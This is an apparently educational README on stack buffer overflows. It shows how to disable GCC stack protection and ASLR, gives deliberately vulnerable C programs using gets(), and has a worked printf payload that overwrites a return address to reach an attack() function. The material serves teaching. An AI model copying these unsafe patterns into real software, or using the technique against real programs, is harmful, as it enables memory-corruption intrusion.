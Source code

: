 # Buffer Overflow

A **buffer** is a temporary space in memory used to hold data.

A **Buffer Overflow** happens when data written to a buffer is larger than
the size of the buffer, and due to insufficient bounds checking it
overflows and overwrites adjacent memory locations.


## Setup
To analyze the stack usage, we have to **disable existing OS and compiler preventions**:

### GCC Stack Protector Options
https://mudongliang.github.io/2016/05/24/stack-protector.html

* **-fstack-protector**\
    Emit extra code to check for buffer overflows, such as stack smashing
    attacks. This is done by adding a guard variable to functions with
    vulnerable objects.
    This includes functions that call alloca, and functions with buffers
    larger than 8 bytes.
    The guards are initialized when a function is entered and then checked
    when the function exits.
    If a guard check fails, an error message is printed and the program exits.

* **-fno-stack-protector**
    Disable Stack Protector Check

* **-z execstack**
    execstack is a program which sets, clears, or queries executable stack
    flag of ELF binaries and shared libraries.

In the `Makefile` of these examples, we use the following compiler flags:
```
CFLAGS = -ggdb -fno-stack-protector -z execstack -Wall
```

### Disable Address Space Layout Randomization (ASLR)
https://en.wikipedia.org/wiki/Address_space_layout_randomization

Address space randomization hinders some types of security attacks by making
it more difficult for an attacker to predict target addresses.
For example, attackers trying to execute return-to-libc attacks must locate
the code to be executed, while other attackers trying to execute shellcode
injected on the stack have to find the stack first.
In both cases, the system obscures related memory-addresses from the attackers.
These values have to be guessed, and a mistaken guess is not usually recoverable
due to the application crashing.

_Example_: Turn off ASLR
```
# su 
root66
# echo 0 > /proc/sys/kernel/randomize_va_space
# cat /proc/self/maps
```

## Buffer Overflow Attack: Overwrite Local Variables 

In the following C code, we can see a `buffer` array which can store a maximum of
8 characters together with a local integer variable `flag` which is used to influence
the control flow. 

In particular, this example uses the **vulnerable `gets()` function** to read any number of 
characters from the console and write it into the limited buffer array.

```C
void read_line()
{
    int flag = 0x0;
    char buffer[8];
    
    gets(buffer);

    if(flag == 0x0)
    {
        printf("Access rejected!!\n");
    }
    else
    {
        printf("Access permited!!\n");
    }
}

int main(int argc, char** argv)
{
    read_line();

    return 0;
}
```

_Example_: Enter a string that fits into the buffer (regular usage)
```
$ ./overwrite_local_vars 
AAAAAAA             // 8 times
Access rejected!!
```

_Example_: Enter a string that does not fit into the buffer (buffer overflow) 
```
$ ./overwrite_local_vars 
AAAAAAAAA           // 9 times
Access permited!!
```
In this case, the characters a written beyond the buffer and override another local variable named `flag`. 
As a result of this, `flag` now has a value different from `0x00` and so the `else` path will be executed.

## Buffer Overflow Attack: Overwrite the Return Address

In the following C code, again the **vulnerable gets() function** is used to write
unvalidated user data into a limited buffer.

```C
void attack()
{
    printf("attacker's code is executed!!\n");
    exit(0);
}

void get_input()
{   
    char buffer[8];
 
    gets(buffer);
    puts(buffer);
}

int main(int argc, char** argv)
{
    get_input();

    return 0;
}
```

In this attack we try to override the return address of the get_input() function's stackframe. 

_Example_: Enter a string that overrides the return address (buffer overflow) 
```
$ ./overwrite_local_vars 
AAAAAAAAAAAAAAAAAAAA    // 20 times           

AAAAAAAAAAAAAAAAAAAA
Segmentation fault
```

Becuase we have replaced the return address with 'A' characters wie end up in a **Segmentation Fault**
as soon as the `get_input()` terminates and returns to this invalid address.

_Example_: Enter a string that replaces the return address (buffer overflow) 
Using the **gdb**, we can we can find out the **address of the attack() function** which is part of the C
application.
```
$ gdb ./overwrite_return_addr
(gdb) run
AAAAA
AAAAA
[Inferior 1 (process 62824) exited normally]

(gdb) disass attack 
Dump of assembler code for function attack:
   0x0000555555555155 <+0>:     push   rbp
   0x0000555555555156 <+1>:     mov    rbp,rsp
   0x0000555555555159 <+4>:     lea    rdi,[rip+0xea4]        # 0x555555556004
   0x0000555555555160 <+11>:    call   0x555555555030 <puts@plt>
   0x0000555555555165 <+16>:    mov    edi,0x0
   0x000055555555516a <+21>:    call   0x555555555050 <exit@plt>
```
Now we know that the `attack()` funktion starts at address `0x0000555555555155` in memory.
Thus, we can encode this address into the user string (note that we use a little endian architecture).
```
0x 00 00 55 55 55 55 51 55 => \x55\x51\x55\x55\x55\x55\x00\x00 

$ printf "AAAAAAAAAAAAAAAA\x55\x51\x55\x55\x55\x55\x00\x00" | ./overwrite_return_addr
AAAAAAAAAAAAAAAAUQUUUU
attacker's code is executed!!
```
This `printf()` command creates an input string which exactly replaces the return address of
the `get_input()` stack frame with the address of the `attack()` funktion.
Thus, when `get_input()` returns, the instruction pointer is loaded with the injected address 
and the execution continues with the `attack()` funktion. 

Note that in a real buffer overflow attack, the user data would contain a **shellcode** which
will be executed by pointing the return address to it.

## References
* Jon Erickson. **Hacking - The Art of Exploitation**. No Starch Press, 2nd Edition, 2008
* Daniel Regalado, Shon Harris, Allen Harper, Chris Eagle, Jonathan Ness, Branko Spasojevic, Ryan Linn, Stephen Sims. **Gray Hat Hacking**. McGraw Hill Education, 4th Edition, 2015


*Egon Teiniker, 2020 - 2022, GPL v3.0*